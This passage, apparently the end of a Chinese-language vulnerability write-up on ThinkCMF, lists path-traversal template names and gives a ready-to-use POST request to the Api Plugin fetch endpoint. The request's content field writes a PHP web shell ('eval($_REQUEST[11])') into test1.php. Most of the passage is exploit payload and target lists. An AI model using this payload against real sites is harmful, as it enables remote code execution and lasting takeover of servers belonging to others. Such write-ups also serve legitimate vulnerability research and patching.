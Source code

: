 请放心这并不是说明漏洞不可使用，而是说，这个模版不存在，你可以换一个 html 即可

```
例如：
/../public/index
/../public/exception
/../data/index
/../data/runtime/index
/../plugins/Mobileverify/View/admin_index
/../plugins/Mobileverify/View/index
/../plugins/Mobileverify/View/widget
/../plugins/Demo/View/admin_index
/../plugins/Demo/View/index
/../plugins/Demo/View/widget
/../application/Install/View/Public/footer
/../application/Install/View/Public/head
/../application/Install/View/Public/header
/../application/Common/index
/../application/Portal/Lang/en-us/index
/../application/Api/Lang/en-us/index
/../application/Api/Lang/zh-cn/index
/../application/Comment/Lang/en-us/index
/../application/Comment/Lang/zh-cn/index 
```

```
url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
post:
templateFile=/../../../public/index
prefix=''
content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php> 
```

```
/../../../public/index
/../../../public/exception
/../../../data/index
/../../../data/runtime/index
/../../../plugins/Mobileverify/View/admin_index
/../../../plugins/Mobileverify/View/index
/../../../plugins/Mobileverify/View/widget
/../../../plugins/Demo/View/admin_index
/../../../plugins/Demo/View/index
/../../../plugins/Demo/View/widget
/../../../application/Install/View/Public/footer
/../../../application/Install/View/Public/head
/../../../application/Install/View/Public/header
/../../../application/Common/index
/../../../application/Portal/Lang/en-us/index
/../../../application/Api/Lang/en-us/index
/../../../application/Api/Lang/zh-cn/index
/../../../application/Comment/Lang/en-us/index
/../../../application/Comment/Lang/zh-cn/index 
```

还有最后一句废话：模版注入对于 linux 并不好用 : ) 差不多了，剩下的自己去 thinkcmf 里面自己找

## 四、参考链接

> 文章来源于[https://www.yuque.com/pmiaowu/bfgkkh/aiiak1](https://www.yuque.com/pmiaowu/bfgkkh/aiiak1)

